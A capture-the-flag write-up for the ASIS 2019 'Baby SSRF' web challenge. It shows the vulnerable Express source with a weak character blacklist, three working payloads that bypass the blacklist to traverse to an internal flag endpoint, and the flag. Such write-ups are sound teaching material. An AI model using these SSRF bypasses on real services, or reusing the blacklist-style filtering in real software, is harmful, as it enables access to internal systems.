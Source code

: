 # ASIS CTF quals - 2019

###### Contributed by k1tten
## Baby SSRF - 70 / Web


Description:
The goats thought they were safe behind the walls from the threat of the wolf!
But they were not aware of the wolf's plan to bypass the wall!


### Solution

The first hint was in the header, then we can get the source code:

```
HTTP/1.1 200 OK
X-Powered-By: Express
GET: source
Content-Type: text/html; charset=utf-8
Content-Length: 22
ETag: W/"16-Ypo4AziLbHOiFWFpNXHkFH9U8Dc"
Date: Tue, 23 Apr 2019 16:55:11 GMT
Connection: close

Hi, I'm a baby ssrf :)
```

Here's the source code.

```
const express = require("express");
const body_parser = require('body-parser');
const http = require('http')
const public_s = express();
const private_s = express();
const normalizeUrl = require('normalize-url');

public_s.use(body_parser.urlencoded({
    extended: true
}));

public_s.get('/', function (request, result) {
    result.setHeader('GET', 'source')
    result.send("Hi, I'm a baby ssrf :)")
    result.end()
})

public_s.get('/source', function(req, res) {
    res.sendFile(__filename)
  })

public_s.use(function (req, res, next) {
    var err = null;
    try {
        decodeURIComponent(req.path)
    } catch (e) {
        err = e;
    }
    if (err) {
        res.sendStatus(400).end()
    }
    next();
});

public_s.post('/open/', (request, result) => {
    document_name = request.body.document_name

    if (document_name === undefined) {
        result.end('bad')
    }
    console.log('http://localhost:9000/documents/' + document_name)
    if (document_name.indexOf('.') >= 0 ||
        document_name.indexOf("2e") >= 0 ||
        document_name.indexOf("┮") >= 0 ||
        document_name.indexOf("Ｅ") >= 0 ||
        document_name.indexOf("Ｎ") >= 0) {
        result.end('Please get your banana and leave!')
    } else {
        try {
            var go_url = normalizeUrl('http://localhost:9000/documents/' + document_name)
        } catch(error) {
            var go_url = 'http://localhost:9000/documents/banana'
        }
        http.get(go_url, function (res) {
            res.setEncoding('utf8');

            if (res.statusCode == 200) {
                res.on('data', function (chunk) {
                    result.send(chunk)
                    result.end()
                });
            } else {
                result.end('Oops')
            }
        }).on('error', function (e) {
            console.log("Got error: " + e.message);
        });
    }
})

public_s.listen(8000)
private_s.listen(9000)

private_s.get('/documents/banana', function (request, result) {
    result.send("Here is your banana :D")
    result.end()
})

private_s.get('/flag', function (request, result) {
    result.send("flag{flag_is_here}")
    result.end()
})
```

We have to access the `http://localhost:9000/flag` to get flag.
But the common symbols to do path traversal was blocked：`.`, `2e`

Even the unicode bypass char was blocked：`┮`, `Ｎ`
(from Orange Tsai：[A New Era Of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

It uses normalizeUrl() to encode unicode character, so the unicode failure seems not working here.

```
Origin:    http://localhost:9001/documents/ＮＮ
Normalize: http://localhost:9001/documents/%EF%BC%AE%EF%BC%AE
```

And I don't know why to block the char `Ｅ` XDDDD

After few tries on the local, we can bypass easily by triple encoding、request with object type.
You could even just use `%2E` because of the block char `%2e` wasn't case sensitive.

```
### console.log for test ###

console.log('Origin:    http://localhost:9001/documents/' + document_name)
console.log('Normalize: ' + normalizeUrl('http://localhost:9001/documents/' + document_name))
console.log('Typeof:    ' + typeof(document_name))
console.log('indexOf(.):' + document_name.indexOf('.'))

######

#1 bypass with triple encoding
Request args：document_name_get=%25%32%45%25%32%45/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#2 bypass with case sensitive
Request args：document_name_get=%252E%252E/flag
Origin:    http://localhost:9001/documents/%2E%2E/flag
Normalize: http://localhost:9001/flag
Typeof:    string
indexOf(.):-1

#3 bypass with object
Request args：document_name_get=foo&document_name_get=/../../flag
Origin:    http://localhost:9001/documents/foo,/../../flag
Normalize: http://localhost:9001/flag
Typeof:    object
indexOf(.):-1
```

`ASIS{68aaf2e4dd0e7ba28622aaed383bef4f}`
